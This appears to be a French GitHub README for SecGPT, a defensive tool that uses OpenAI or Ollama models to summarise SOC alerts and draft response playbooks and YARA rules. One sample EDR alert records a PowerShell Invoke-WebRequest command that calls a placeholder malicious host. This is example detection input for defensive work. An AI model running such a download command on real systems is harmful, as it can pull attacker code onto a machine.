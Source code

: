 # 🧠 SecGPT – Assistant IA pour analystes SOC

<p align="center">
  <img src="https://img.shields.io/badge/Python-3.8+-blue.svg?style=for-the-badge&logo=python&logoColor=white" alt="Python 3.8+"/>
  <img src="https://img.shields.io/badge/LLM-OpenAI_&_Ollama-green.svg?style=for-the-badge&logo=openai&logoColor=white" alt="LLM"/>
  <img src="https://img.shields.io/badge/License-MIT-green.svg?style=for-the-badge" alt="License: MIT"/>
</p>

<p align="center">
  <b>Assistant IA conçu pour les analystes de sécurité SOC</b><br>
  <sub>🔍 Résumé d'alertes | 🛡️ Réponse aux incidents | 📋 Playbooks | 🧬 Règles YARA</sub>
</p>

---

## 📋 Description

**SecGPT** est un assistant IA pour les analystes SOC qui permet d'automatiser l'analyse initiale des alertes de sécurité. Il peut rapidement résumer des alertes complexes, suggérer des réponses appropriées, générer des playbooks et même proposer des règles YARA pour la détection.

> ⚠️ **Note importante** : Cet outil est conçu pour assister les analystes de sécurité, non pour les remplacer. Les recommandations générées doivent être examinées par un professionnel avant d'être appliquées.

### 🔍 Fonctionnalités principales

- 📄 **Résume des alertes** issues de différentes sources (EDR, mail de phishing, logs, etc.)
- 🔧 **Suggestion de réponses** adaptées au contexte de l'alerte
- ⚙️ **Génération de playbooks SOC** pour standardiser les procédures de réponse
- 🧬 **Création de règles YARA** de base pour la détection de menaces similaires
- 🧠 **Support de différents LLM** : GPT-4 (API OpenAI) ou modèles locaux via Ollama

## ⚙️ Installation

```bash
# Cloner le dépôt
git clone https://github.com/servais1983/SecGPT.git
cd SecGPT

# Installer les dépendances
pip install -r requirements.txt

# Configurer les variables d'environnement
cp .env.example .env
# Éditer .env avec votre clé API OpenAI ou configurez pour utiliser Ollama localement
```

## 🛠️ Utilisation

### Interface en ligne de commande

```bash
# Analyse d'une alerte à partir d'un fichier texte
python secgpt.py --input examples/alert.txt
```

### Interface web (Gradio)

```bash
# Lancer l'interface web
python ui/webapp.py
```

L'interface web sera accessible à l'adresse http://localhost:7860 par défaut.

## 💡 Exemples d'analyse

### Alerte JSON d'EDR

```json
{"timestamp":"2024-05-12T15:44:01Z","user":"jdoe","command":"powershell Invoke-WebRequest http://malicious.com","process":"powershell.exe"}
```

### Résultats générés

- **Résumé** : Analyse concise de l'alerte en langage clair
- **Réponse recommandée** : Actions à entreprendre immédiatement
- **Playbook** : Procédure étape par étape pour traiter l'incident
- **Règle YARA** : Détection de patterns similaires à l'avenir

## 🗂️ Structure du projet

```
secgpt/
├── app/              # Logique principale
│   ├── core.py       # Coordination des analyses IA
│   ├── models.py     # Connecteurs LLM (OpenAI, Ollama)
│   └── templates.py  # Prompts de base pour les LLM
├── ui/               # Interfaces utilisateur
│   └── webapp.py     # Interface web Gradio
├── examples/         # Exemples d'alertes pour tests
│   └── alert.txt     # Exemple d'alerte JSON
├── secgpt.py         # Interface CLI
├── requirements.txt  # Dépendances Python
├── .env.example      # Configuration (clés API, etc.)
└── README.md         # Documentation
```

## 🔄 Modes LLM supportés

Le projet supporte deux modes d'utilisation des LLM :

1. **OpenAI (GPT-4)** - Performances optimales mais nécessite une clé API et un coût d'utilisation
   - Configuration : `LLM_MODE=openai` dans .env
   - Nécessite : `OPENAI_API_KEY=sk-your-key-here`

2. **Ollama (local)** - Fonctionne entièrement en local, sans coût, mais performances réduites
   - Configuration : `LLM_MODE=ollama` dans .env (défaut)
   - Nécessite : [Ollama](https://ollama.ai/) installé localement avec au moins un modèle (llama2 par défaut)

## 📈 Fonctionnalités à venir

- [ ] Support pour d'autres modèles LLM (Claude, Gemini, etc.)
- [ ] Enrichissement contextuel des alertes (IOCs, réputation, etc.)
- [ ] Intégration MITRE ATT&CK pour classification des menaces
- [ ] Génération de rapports détaillés en format PDF
- [ ] API REST pour intégration à d'autres systèmes SOC
- [ ] Historisation et comparaison des alertes similaires

## 🤝 Contribuer

Les contributions sont les bienvenues ! N'hésitez pas à ouvrir une issue ou à soumettre une pull request.

## 📄 Licence

Ce projet est sous licence MIT - voir le fichier LICENSE pour plus de détails.

---

<p align="center">
  <sub>🔐 Développé pour aider les analystes SOC à traiter les alertes plus efficacement</sub>
</p>
